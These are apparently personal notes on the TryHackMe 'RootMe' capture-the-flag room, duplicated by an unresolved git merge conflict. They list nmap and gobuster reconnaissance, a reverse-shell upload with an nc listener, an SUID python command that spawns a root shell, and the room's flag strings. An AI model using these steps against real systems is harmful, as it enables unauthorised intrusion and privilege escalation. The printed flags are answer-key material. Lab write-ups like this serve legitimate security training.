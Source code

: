 <<<<<<< HEAD
https://tryhackme.com/room/rrootme

- run nmap to discover open ports `nmap -sC -sV <IP>`:
	- 22: ssh
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- poke in webapp:
	- one page side, nothing interesting on code
	- gobuster:
		- `gobuster dir -u <IP> -w <wordlist>`
			- → /css, /js, /uploads, /panel
			- insteresting is panel (uploadong files) and uploads 

- getting reverse shell
	- uploading reverse shell script - /panel
		- figure out possible extensions to upload
	- set listener `nc -lnvp 4444`
	- run the shell from /uploads
	- find a user.txt flag
		- `find / -name user.txt 2>/dev/null`
		- → THM{y0u_g0t_a_sh3ll}

- root the machine
	- `sudo -l` → nothing
	- get SUID files `find / -user root -perm /4000`
		- → interesting: /usr/bin/python
		- exploit: `python -c 'import os; os.execl("/bin/sh","sh","-p")'`
			- if you don't have stable shell you get empty line but try `whoami`!!!
=======
https://tryhackme.com/room/rrootme

- run nmap to discover open ports `nmap -sC -sV <IP>`:
	- 22: ssh
		- OpenSSH 7.6p1
	- 80: http
		- Apache httpd 2.4.29

- poke in webapp:
	- one page side, nothing interesting on code
	- gobuster:
		- `gobuster dir -u <IP> -w <wordlist>`
			- → /css, /js, /uploads, /panel
			- insteresting is panel (uploadong files) and uploads 

- getting reverse shell
	- uploading reverse shell script - /panel
		- figure out possible extensions to upload
	- set listener `nc -lnvp 4444`
	- run the shell from /uploads
	- find a user.txt flag
		- `find / -name user.txt 2>/dev/null`
		- → THM{y0u_g0t_a_sh3ll}

- root the machine
	- `sudo -l` → nothing
	- get SUID files `find / -user root -perm /4000`
		- → interesting: /usr/bin/python
		- exploit: `python -c 'import os; os.execl("/bin/sh","sh","-p")'`
			- if you don't have stable shell you get empty line but try `whoami`!!!
>>>>>>> ed86870e047cc27b656f2f20735dd248c5953b5d
			- root flag: THM{pr1v1l3g3_3sc4l4t10n} 
